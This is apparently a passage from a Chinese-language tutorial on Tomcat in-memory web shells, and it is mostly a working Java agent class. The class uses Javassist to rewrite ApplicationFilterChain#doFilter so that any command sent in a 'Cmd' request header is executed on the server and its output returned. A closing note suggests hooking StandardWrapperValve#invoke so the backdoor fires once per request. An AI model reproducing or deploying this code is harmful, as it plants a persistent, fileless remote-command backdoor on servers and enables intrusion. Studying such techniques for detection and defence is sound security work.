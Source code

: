 ```java

class TomcatTransformer implements ClassFileTransformer{
    public static final String CLASSNAME = "org.apache.catalina.core.ApplicationFilterChain";
    public static final String CLASSMETHOD = "doFilter";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        try {
            ClassPool pool = ClassPool.getDefault();
            if (classBeingRedefined != null) {
                ClassClassPath ccp = new ClassClassPath(classBeingRedefined);
                pool.insertClassPath(ccp);
            }
            if (className.replace("/", ".").equals(CLASSNAME)) {
                CtClass clazz = pool.get(CLASSNAME);
                CtMethod method = clazz.getDeclaredMethod(CLASSMETHOD);
                method.insertBefore("javax.servlet.http.HttpServletRequest httpServletRequest = (javax.servlet.http.HttpServletRequest) request;\n" +
                        "String cmd = httpServletRequest.getHeader(\"Cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    Process process = Runtime.getRuntime().exec(cmd);\n" +
                        "    java.io.InputStream input = process.getInputStream();\n" +
                        "    java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(input));\n" +
                        "    StringBuilder sb = new StringBuilder();\n" +
                        "    String line = null;\n" +
                        "    while ((line = br.readLine()) != null){\n" +
                        "        sb.append(line + \"\\n\");\n" +
                        "    }\n" +
                        "    br.close();\n" +
                        "    input.close();\n" +
                        "    response.getOutputStream().print(sb.toString());\n" +
                        "    response.getOutputStream().flush();\n" +
                        "    response.getOutputStream().close();\n" +
                        "}");
                byte[] classbyte = clazz.toBytecode();
                clazz.detach();
                return classbyte;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return classfileBuffer;
    }
}
```

上面这个doFilter 方法会调用很多次，也就会弹出很多次计算器

所以正确的做法是去 hook 某个在一次 request 请求中只会被调用一次的方法, 例如 `org.apache.catalina.core.StandardWrapperValve#invoke`
